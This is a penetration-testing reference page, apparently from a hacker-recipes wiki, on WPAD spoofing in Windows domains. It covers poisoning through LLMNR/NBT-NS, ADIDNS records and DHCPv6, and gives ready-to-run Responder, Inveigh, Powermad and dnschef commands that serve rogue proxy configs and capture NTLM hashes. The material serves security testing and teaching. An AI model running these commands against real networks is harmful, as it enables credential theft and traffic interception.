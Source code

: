 # WPAD spoofing

## Theory

The Web Proxy Automatic Discovery (WPAD) protocol allows clients to obtain proxy configurations for Internet access through a `wpad.dat` file hosted on a server which address is usually resolved through DNS. This allows corporations to easily manage web proxy configs through a single file.

## Practice

WPAD spoofing can be combined with&#x20;

* [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md)
* [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md), followed by [DNS spoofing](dns-spoofing.md)

{% hint style="info" %}
Proxy auth NTLM authentication can either be [captured](../ntlm/capture.md) with Responder with `--wredir` and `--ProxyAuth` or [relayed](../ntlm/relay.md) with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) by using the `--http-port 3128` argument.
{% endhint %}

### through LLMNR, NBT-NS spoofing

On old Windows systems (i.e. lacking the MS16-077 security update), the WPAD location could be obtained through insecure name resolution protocols like LLMNR and NBT-NS when standard DNS queries were failing (i.e. no DNS record for WPAD). This allowed attackers to operate [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md) to answer those WPAD queries and redirect to a fake `wpad.dat` file, hence poisoning the web proxy configuration of the requesting clients, hence obtaining more traffic.

[Responder](https://github.com/SpiderLabs/Responder) (Python) and [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell) are great tools for name poisoning. In addition to name poisoning, they also have the ability to start servers (listeners) that will [capture authentications](../ntlm/capture.md) and echo the NTLM hashes to the attacker.

{% tabs %}
{% tab title="UNIX-like" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers (HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...) will [capture NTLM hashes](../ntlm/capture.md).

* The `--wpad` option will make Responder start the WPAD rogue server so that fake `wpad.dat` file can be served to requesting clients.
* The `--ForceWpadAuth` option is needed on servers that applied the MS16-077 security patch. This patch introduced a mitigation that now prevents clients from automatically authenticating. This option forces the authentication request, hence potentially causing a login prompt.

```bash
responder --interface eth0 --wpad --ForceWpadAuth
```
{% endtab %}

{% tab title="Windows" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers (HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...) will [capture NTLM hashes](../ntlm/capture.md) (even from machine accounts) and set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh)).

* Inveigh starts a WPAD rogue proxy server by default.
* Options like `-WPADAuth`, `-WPADAuthIgnore`, `-WPADIP`, `-WPADPort`, `-WPADResponse` (and others) can be used to tweak the WPAD abuse.

```
Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```
{% endtab %}
{% endtabs %}

### through ADIDNS spoofing

On up-to-date machines (i.e. with the MS17-066 security update applied), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md) if the WPAD record does not exist. There is however a DNS block list mitigation called GQBL (Global Query Block List) preventing names like WPAD and ISATAP (default entries) to be resolved. This block list exists to reduce vulnerabilities associated with dynamic DNS updates but [it can be edited](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995158\(v=technet.10\)) when [implementing WPAD](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995261\(v=technet.10\)).

#### Pre CVE-2018-8320

On machines that are not patched against [CVE-2018-8320](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8320), there are two ways to bypass the GQBL: by [registering a wildcard record](adidns-spoofing.md#manuel-record-addition) or by registering a domain alias (DNAME) record, which can be conducted as follows with [Powermad](https://github.com/Kevin-Robertson/Powermad) (Powershell).

```bash
New-ADIDNSNode -Node 'pentester01' -Data 'Pentest_IP_Address'
New-ADIDNSNode -Node wpad -Type DNAME -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

#### Post CVE-2018-8320

On machines that are patched against that CVE, registering a name server (NS) record could still work.&#x20;

```bash
New-ADIDNSNode -Node 'pentester01' -Data 'Pentest_IP_Address'
New-ADIDNSNode -Node wpad -Type NS -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

In order for the NS record technique to work, the tester has to have a DNS server running for [DNS spoofing](dns-spoofing.md). This can easily be accomplished with [dnschef](https://github.com/iphelix/dnschef) (Python).

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### through DHCPv6 spoofing

On up-to-date machines (i.e. with the MS17-066 security update applied), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md), **even if the WPAD record does exist**. With DNS poisoning through DHCPv6 spoofing, an attacker can reply to DHCPv6 requests, and then reply to DNS queries.

This attack can be conducted with [mitm6](https://github.com/fox-it/mitm6) (Python), see the [DHCPv6 spoofing](dhcpv6-spoofing.md) page for exploitation notes.

## References

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://www.fox-it.com/en/news/blog/mitm6-compromising-ipv4-networks-via-ipv6/" %}

